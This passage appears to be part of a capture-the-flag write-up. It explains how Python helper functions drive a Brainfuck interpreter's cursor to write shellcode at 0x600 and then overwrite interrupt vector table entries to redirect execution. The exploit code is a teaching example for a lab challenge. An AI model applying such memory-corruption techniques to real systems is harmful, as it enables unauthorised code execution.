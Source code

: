 This shell-code is position dependent and needs to be loaded at `0x600`, but our cursor starts off at `0x750`, so we need to send quite a few `<`s to make our way over there.
This forms the basis for our `goto` function, which will fetch the cursor position and then increment or decrement the cursor until we arrive at our destination

```py
# send_bf sends data reliably, as there is no input queuing.
# get_cursor makes use of the `!` command which prints out the current
#  cursor position and tape data

def goto(addr):
    while (cursor := get_cursor()) != addr:
        send_bf((b'<' if cursor > addr else b'>') * (cursor-addr))
        p.send(b'\n')
        p.recvuntil(b'INPUT > ')
```

From here, writing is just incrementing the cell to the right value.
There were a few optimizations made, for example if a character is printable we can use the input command `,` to read that value in raw, however these have been omited for brevity.
These optimiztions were required to bring the upload time to a more reasonable 1.5 bits per second, rather than the 0.3 we were experiencing without them.

```py
def write(addr, val):
    goto(addr)
    send_bf(b'+' * val)
    p.send(b'\n')
    p.recvuntil(b'INPUT > ')
```

This can then be used to upload shell-code to `0x600`

```py
for i, s in enumerate(shellcode):
    write(0x600 + i, s)
```

## Overwriting the IVT

Next its just a matter of cursoring over to `0x500`, decrementing by `2` and overwriting 2 bytes in the IVT.

```py
goto(0x500)
# our goto function doesn't know about the under/overflow issue
send_bf(b'<<')
p.send(b'\n')
p.recvuntil(b'INPUT > ')

write(0, 0x00) # LSB of 0x600

# cursor to 0x1
send_bf(b'>')
p.send(b'\n')
p.recvuntil(b'INPUT > ')

write(1, 0x06) # MSB of 0x600
```
